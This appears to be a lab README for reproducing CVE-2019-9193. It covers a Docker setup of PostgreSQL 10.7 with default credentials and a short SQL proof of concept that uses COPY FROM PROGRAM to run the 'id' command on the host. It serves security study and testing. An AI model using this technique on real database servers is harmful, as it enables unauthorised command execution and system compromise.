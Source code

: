 # PostgreSQL Arbitrary Command Execution with Admin Privileges (CVE-2019-9193)

[中文文档](README.zh-cn.md)

PostgreSQL is a powerful open-source relational database system. A "feature" exists in versions 9.3 through 11 that allows administrators or users with "COPY TO/FROM PROGRAM" privileges to execute arbitrary commands on the system.

References:

- <https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5>

## Environment Setup

Execute the following command to start a vulnerable PostgreSQL 10.7 server:

```
docker compose up -d
```

The server will start and listen on the default PostgreSQL port 5432, with default credentials postgres/postgres.

## Vulnerability Reproduction

First, connect to the PostgreSQL server and execute the following proof of concept:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

The `FROM PROGRAM` statement will execute the `id` command and save the results in the `cmd_exec` table:

![](1.png)
